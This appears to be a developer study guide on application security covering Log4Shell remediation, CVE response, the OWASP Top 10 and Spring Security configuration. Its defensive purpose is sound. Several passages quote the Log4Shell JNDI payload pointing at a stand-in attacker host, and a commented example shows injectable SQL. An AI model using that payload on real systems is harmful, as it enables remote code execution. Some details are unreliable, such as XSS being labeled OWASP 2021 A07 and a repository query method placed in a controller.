



# Security

## Quick Reference

- OWASP Top 10 categories: Injection, Broken Authentication, Sensitive Data Exposure, XXE, Broken Access Control, Security Misconfiguration, XSS, Insecure Deserialization, Vulnerable Components, Insufficient Logging
- Log4Shell (CVE-2021-44228) exploits JNDI lookup in Log4j 2.x via `${jndi:ldap://attacker.com/payload}` strings
- Spring Security filter chain order matters: authentication filters run before authorization filters
- CVE response SLA: Critical (CVSS 9.0+) patch within 24-72 hours, High (7.0-8.9) within 1 week
- Always use parameterized queries to prevent SQL injection; never concatenate user input into queries
- Enable CSRF protection for state-changing operations in web applications
- Use `BCryptPasswordEncoder` with strength 12+ for password hashing in Spring Security
- Content Security Policy (CSP) headers mitigate XSS by restricting script sources

## When to Use

Security practices apply to every stage of the software development lifecycle, from design through deployment and ongoing operations. Log4Shell remediation knowledge is essential when maintaining any Java application that uses Log4j 2.x, particularly in enterprise environments where transitive dependencies may include vulnerable versions. CVE response processes are critical for teams operating production services where unpatched vulnerabilities create compliance violations and breach risk. OWASP Top 10 awareness is fundamental for any developer writing web applications, APIs, or microservices that handle user input or sensitive data. Spring Security configuration is necessary when building Java web applications that require authentication, authorization, CSRF protection, or integration with identity providers like OAuth2 and SAML. Understanding these security domains enables engineers to design systems that are resilient to attack, compliant with regulatory requirements, and prepared for rapid incident response when new vulnerabilities are disclosed.

## Code Examples

### Spring Security Configuration with JWT Authentication

```java
@Configuration
@EnableWebSecurity
@EnableMethodSecurity
public class SecurityConfig {

    private final JwtAuthenticationFilter jwtFilter;
    private final AuthenticationProvider authProvider;

    @Bean
    public SecurityFilterChain filterChain(HttpSecurity http) throws Exception {
        return http
            .csrf(csrf -> csrf.disable()) // Disabled for stateless JWT APIs
            .sessionManagement(session ->
                session.sessionCreationPolicy(SessionCreationPolicy.STATELESS))
            .authorizeHttpRequests(auth -> auth
                .requestMatchers("/api/auth/**").permitAll()
                .requestMatchers("/actuator/health").permitAll()
                .requestMatchers("/api/admin/**").hasRole("ADMIN")
                .requestMatchers("/api/**").authenticated()
                .anyRequest().denyAll())
            .authenticationProvider(authProvider)
            .addFilterBefore(jwtFilter, UsernamePasswordAuthenticationFilter.class)
            .build();
    }

    @Bean
    public PasswordEncoder passwordEncoder() {
        return new BCryptPasswordEncoder(12);
    }

    @Bean
    public CorsConfigurationSource corsConfigurationSource() {
        CorsConfiguration config = new CorsConfiguration();
        config.setAllowedOrigins(List.of("https://app.example.com"));
        config.setAllowedMethods(List.of("GET", "POST", "PUT", "DELETE"));
        config.setAllowedHeaders(List.of("Authorization", "Content-Type"));
        config.setMaxAge(3600L);
        UrlBasedCorsConfigurationSource source = new UrlBasedCorsConfigurationSource();
        source.registerCorsConfiguration("/api/**", config);
        return source;
    }
}
```

### Input Validation and SQL Injection Prevention

```java
@RestController
@RequestMapping("/api/users")
public class UserController {

    private final UserRepository userRepository;

    // SAFE: Using Spring Data JPA parameterized queries
    @GetMapping("/search")
    public List<UserDto> searchUsers(
            @RequestParam @Size(min = 1, max = 100) String query) {
        return userRepository.findByNameContainingIgnoreCase(query)
            .stream()
            .map(UserMapper::toDto)
            .toList();
    }

    // SAFE: Using @Query with named parameters
    @Query("SELECT u FROM User u WHERE u.email = :email AND u.active = true")
    Optional<User> findActiveByEmail(@Param("email") String email);

    // VULNERABLE - NEVER DO THIS
    // String sql = "SELECT * FROM users WHERE name = '" + userInput + "'";
}
```

### Log4j Vulnerability Detection and Remediation

```xml
<!-- Maven: Force Log4j version upgrade across all transitive dependencies -->
<dependencyManagement>
    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-bom</artifactId>
            <version>2.21.1</version>
            <type>pom</type>
            <scope>import</scope>
        </dependency>
    </dependencies>
</dependencyManagement>

<!-- Gradle: Force resolution strategy -->
<!-- configurations.all {
    resolutionStrategy.eachDependency { details ->
        if (details.requested.group == 'org.apache.logging.log4j') {
            details.useVersion('2.21.1')
        }
    }
} -->
```

## Log4Shell Remediation

Log4Shell (CVE-2021-44228) is a critical remote code execution vulnerability in Apache Log4j 2.x that allows attackers to execute arbitrary code by injecting JNDI lookup strings into logged messages. The vulnerability exists because Log4j performs message lookup substitution by default, interpreting strings like `${jndi:ldap://attacker.com/exploit}` as instructions to fetch and execute remote objects. This affects any application that logs user-controlled input through Log4j 2.0-beta9 through 2.14.1, which includes a vast number of enterprise Java applications due to Log4j's ubiquity as a logging framework.

The immediate remediation is upgrading to Log4j 2.17.1 or later, which disables message lookup substitution by default and removes the JNDI attack vector entirely. For applications that cannot immediately upgrade, setting the JVM flag `-Dlog4j2.formatMsgNoLookups=true` or the environment variable `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` disables lookups in versions 2.10 through 2.14.1. Removing the `JndiLookup` class from the classpath (`zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class`) provides a workaround for older versions that do not support the flag.

Detection involves scanning all application dependencies including transitive ones. Use `mvn dependency:tree | grep log4j` or `gradle dependencies | grep log4j` to identify vulnerable versions. Container images should be scanned with tools like Trivy or Grype. Runtime detection can be achieved by monitoring for outbound LDAP/RMI connections from application servers or by deploying WAF rules that block strings matching `${jndi:` patterns in request headers, query parameters, and body content.

Post-remediation validation requires confirming that no vulnerable Log4j versions remain in the dependency tree, that JNDI lookups are disabled in configuration, and that monitoring is in place to detect exploitation attempts. Organizations should also audit their logging practices to ensure user-controlled input is sanitized before being passed to logging frameworks, reducing the attack surface for future logging-related vulnerabilities.

## CVE Response Processes

A CVE (Common Vulnerabilities and Exposures) response process defines how an organization identifies, assesses, prioritizes, and remediates security vulnerabilities in its software dependencies and infrastructure. An effective process reduces the window of exposure between vulnerability disclosure and patch deployment, which is the period of greatest risk for exploitation. Enterprise teams typically maintain a vulnerability management program that integrates with CI/CD pipelines, dependency scanning tools, and incident response workflows.

The response workflow begins with vulnerability intake from multiple sources: automated dependency scanners (Dependabot, Snyk, Renovate), security advisories (NVD, GitHub Security Advisories, vendor bulletins), and internal security research. Each vulnerability is assessed using the Common Vulnerability Scoring System (CVSS) to determine severity. Critical vulnerabilities (CVSS 9.0-10.0) demand immediate response with a target remediation window of 24-72 hours. High severity (7.0-8.9) should be addressed within one week. Medium (4.0-6.9) within 30 days. Low (0.1-3.9) within 90 days or the next scheduled maintenance window.

Prioritization considers exploitability in the specific deployment context. A vulnerability in a library that is present but whose vulnerable code path is never invoked may be deprioritized compared to one in an actively used authentication module. Factors include whether the vulnerable component is internet-facing, whether exploit code is publicly available, and whether compensating controls (WAF rules, network segmentation) reduce the effective risk. The CISA Known Exploited Vulnerabilities (KEV) catalog provides authoritative guidance on which CVEs are actively exploited in the wild.

Remediation typically involves upgrading the vulnerable dependency to a patched version, applying vendor-provided hotfixes, or implementing compensating controls when patches are unavailable. The change follows standard deployment procedures but with expedited review and approval for critical vulnerabilities. After deployment, the team validates the fix through dependency scanning, penetration testing, or runtime verification. The entire process is documented for compliance audits and post-incident review, including timeline, decisions made, and any accepted residual risk.

## OWASP Top 10

The OWASP Top 10 is a standard awareness document representing the most critical security risks to web applications, updated periodically based on data from hundreds of organizations and thousands of applications. Understanding these categories enables developers to build defenses into application architecture rather than bolting them on after the fact. The 2021 edition reorganized categories to reflect modern attack patterns and introduced new entries for insecure design and software integrity failures.

**A01: Broken Access Control** is the most common vulnerability category, occurring when applications fail to enforce proper authorization checks. This includes insecure direct object references (IDOR) where users can access resources by manipulating identifiers, missing function-level access control where administrative endpoints lack role checks, and privilege escalation through parameter tampering. Prevention requires implementing access control at the server side, denying by default, enforcing record ownership, and disabling directory listing. In Spring Security, use `@PreAuthorize` annotations with SpEL expressions to enforce method-level authorization.

**A02: Cryptographic Failures** covers inadequate protection of sensitive data in transit and at rest. This includes using deprecated algorithms (MD5, SHA-1 for passwords), transmitting data over unencrypted channels, storing passwords in plaintext or with reversible encryption, and using hard-coded cryptographic keys. Prevention requires using TLS 1.2+ for all data in transit, encrypting sensitive data at rest with AES-256, hashing passwords with bcrypt/scrypt/Argon2, and managing keys through dedicated services like AWS KMS or HashiCorp Vault.

**A03: Injection** encompasses SQL injection, NoSQL injection, OS command injection, and LDAP injection where untrusted data is sent to an interpreter as part of a command or query. Prevention requires using parameterized queries exclusively, validating and sanitizing all input, applying the principle of least privilege to database accounts, and using ORM frameworks that generate parameterized queries by default. Spring Data JPA and JDBC Template both provide parameterized query support that eliminates SQL injection when used correctly.

**A07: Cross-Site Scripting (XSS)** occurs when applications include untrusted data in web pages without proper validation or escaping. Stored XSS persists malicious scripts in the database, reflected XSS bounces scripts off the server in error messages or search results, and DOM-based XSS manipulates the client-side DOM. Prevention requires output encoding appropriate to the context (HTML, JavaScript, URL, CSS), implementing Content Security Policy headers, and using frameworks like React that auto-escape output by default.

## Spring Security Configuration

Spring Security provides a comprehensive security framework for Java applications, implementing authentication, authorization, CSRF protection, session management, and integration with external identity providers. The framework operates through a filter chain architecture where each security concern is handled by a dedicated filter, processed in a specific order. Understanding the filter chain is essential for debugging security issues and customizing behavior for specific application requirements.

The modern Spring Security configuration uses the component-based `SecurityFilterChain` bean approach rather than the deprecated `WebSecurityConfigurerAdapter`. Each filter chain is defined as a `@Bean` method returning a `SecurityFilterChain`, allowing multiple chains with different configurations for different URL patterns. The `HttpSecurity` builder provides a fluent API for configuring authorization rules, authentication mechanisms, CSRF handling, CORS policies, and session management strategies.

Authentication in Spring Security supports multiple mechanisms including form-based login, HTTP Basic, JWT tokens, OAuth2/OpenID Connect, and SAML. For microservice architectures, JWT-based stateless authentication is preferred because it eliminates server-side session state and enables horizontal scaling without sticky sessions. The JWT filter validates the token signature, extracts claims, and populates the `SecurityContext` with an `Authentication` object that downstream filters and controllers can access via `SecurityContextHolder`.

Authorization operates at two levels: URL-based (configured in the filter chain) and method-based (using `@PreAuthorize`, `@PostAuthorize`, `@Secured` annotations). URL-based rules are evaluated first and provide coarse-grained access control. Method-level security provides fine-grained control using Spring Expression Language (SpEL) to evaluate complex authorization logic including checking resource ownership, role hierarchies, and custom permission evaluators. Enable method security with `@EnableMethodSecurity` on a configuration class.

CSRF protection is enabled by default in Spring Security and is essential for applications using cookie-based session authentication. For stateless APIs using JWT in the Authorization header, CSRF can be safely disabled because the token is not automatically attached by the browser. When CSRF is enabled, Spring Security generates a token stored in the session and expects it in a header or form field on state-changing requests (POST, PUT, DELETE). The `CookieCsrfTokenRepository.withHttpOnlyFalse()` configuration makes the token accessible to JavaScript frameworks for SPA integration.

## Architecture and Diagrams







## Common Pitfalls

Disabling CSRF protection globally without understanding the implications is a frequent mistake. While stateless JWT APIs can safely disable CSRF, applications that use cookie-based sessions or mixed authentication strategies remain vulnerable to cross-site request forgery when CSRF is disabled. Always evaluate whether your authentication mechanism is automatically attached by the browser before disabling CSRF protection.

Overly permissive CORS configurations that allow all origins (`*`) with credentials effectively disable the same-origin policy. In production, always specify exact allowed origins, restrict methods to those actually needed, and set appropriate `maxAge` values to reduce preflight request overhead. Never use wildcard origins when `allowCredentials` is true.

Logging sensitive data such as passwords, tokens, or personal information creates compliance violations and increases breach impact. Configure log sanitization filters and ensure that request/response logging excludes Authorization headers, request bodies containing credentials, and any PII fields. Use structured logging with explicit field selection rather than logging entire objects.

Relying solely on client-side validation for security is ineffective because attackers bypass the browser entirely. All input validation, authorization checks, and business rule enforcement must be implemented server-side. Client-side validation improves user experience but provides zero security guarantees.

Using outdated dependency versions with known vulnerabilities is one of the most common security failures in enterprise applications. Implement automated dependency scanning in CI/CD pipelines using tools like OWASP Dependency-Check, Snyk, or GitHub Dependabot. Establish a policy for maximum acceptable vulnerability age and enforce it through build failures for critical and high severity CVEs.

## Real-World Use Cases

A financial services platform implemented Spring Security with OAuth2 and multi-factor authentication to meet PCI-DSS compliance requirements. The system used method-level security with custom permission evaluators to enforce account ownership checks, ensuring users could only access their own financial data. Rate limiting on authentication endpoints prevented credential stuffing attacks, while audit logging captured all access decisions for regulatory review.

An e-commerce company discovered Log4Shell in their order processing microservices during the December 2021 disclosure. Their CVE response process enabled them to identify all affected services within 4 hours using dependency scanning, deploy WAF rules blocking JNDI lookup patterns within 6 hours as a compensating control, and roll out patched versions to production within 18 hours. The rapid response prevented any exploitation despite the services being internet-facing.

A healthcare SaaS provider implemented OWASP Top 10 controls across their application stack to achieve HIPAA compliance. This included encrypting all PHI at rest with AES-256, enforcing TLS 1.3 for data in transit, implementing parameterized queries throughout the data access layer, and deploying Content Security Policy headers to prevent XSS. Quarterly penetration testing validated the controls and identified areas for improvement.

## Common Interview Questions

**Q: How does Log4Shell work and what makes it critical?**
A: Log4Shell exploits Log4j's message lookup substitution feature, where strings like `${jndi:ldap://attacker.com/payload}` in logged messages trigger JNDI lookups that fetch and execute remote code. It is critical because Log4j is ubiquitous in Java applications, exploitation requires only injecting a string into any logged field, and it provides remote code execution with the application's privileges.

**Q: Explain the Spring Security filter chain architecture.**
A: Spring Security processes requests through an ordered chain of servlet filters, each handling a specific security concern (CORS, CSRF, authentication, authorization). Filters are registered in a `SecurityFilterChain` bean and execute sequentially. Authentication filters populate the `SecurityContext`, and the authorization filter at the end evaluates access rules against the authenticated principal.

**Q: What is the difference between authentication and authorization?**
A: Authentication verifies identity (who you are) through credentials like passwords, tokens, or certificates. Authorization determines permissions (what you can do) by evaluating the authenticated identity against access control rules. In Spring Security, authentication produces an `Authentication` object, and authorization checks it against `@PreAuthorize` rules or URL-based matchers.

**Q: How do you prevent SQL injection in a Spring application?**
A: Use Spring Data JPA repositories with method-name queries or `@Query` annotations with named parameters. For JDBC, use `JdbcTemplate` with parameterized queries. Never concatenate user input into SQL strings. Additionally, apply input validation with Bean Validation annotations and enforce least-privilege database accounts that cannot execute DDL statements.

**Q: What is your approach to CVE response for a critical vulnerability?**
A: Immediately assess scope by scanning all services for the affected dependency. Deploy compensating controls (WAF rules, network restrictions) while preparing patches. Upgrade the vulnerable component, test in staging, and deploy to production within the SLA (24-72 hours for critical). Validate remediation through scanning, notify stakeholders, and document the response timeline for post-incident review.

## Production Tips

Implement defense in depth by layering security controls rather than relying on any single mechanism. Combine network-level controls (security groups, WAF), application-level controls (authentication, authorization, input validation), and data-level controls (encryption, access logging). If one layer fails, others continue to provide protection.

Rotate secrets and credentials on a regular schedule and immediately upon suspected compromise. Use a secrets management service (AWS Secrets Manager, HashiCorp Vault) rather than environment variables or configuration files. Implement short-lived credentials where possible, such as AWS IAM roles with temporary security tokens rather than long-lived access keys.

Monitor authentication and authorization failures as security signals. Alert on unusual patterns such as multiple failed login attempts from a single IP, successful logins from new geographic locations, or privilege escalation attempts. Integrate security events with your SIEM (Splunk, CloudWatch) for correlation and automated response.

Conduct regular dependency audits and maintain a software bill of materials (SBOM) for each service. This enables rapid impact assessment when new CVEs are disclosed. Automate dependency updates with tools like Renovate or Dependabot, and configure CI pipelines to fail on critical vulnerabilities in direct dependencies.

Implement security headers on all HTTP responses: `Strict-Transport-Security` (HSTS), `Content-Security-Policy`, `X-Content-Type-Options: nosniff`, `X-Frame-Options: DENY`, and `Referrer-Policy: strict-origin-when-cross-origin`. In Spring Boot, configure these through `SecurityFilterChain` or a dedicated `WebMvcConfigurer` bean.

## Related Topics

- [Spring Framework](../../backend/spring-framework/index.md) - Foundation framework for Spring Security configuration and dependency injection patterns
- [Web Application Security](./web-application-security.md) - Broader web security context including XSS, CSRF, and injection attacks
- [Authentication Patterns](./authentication-patterns.md) - Identity verification mechanisms including OAuth2, OIDC, and JWT
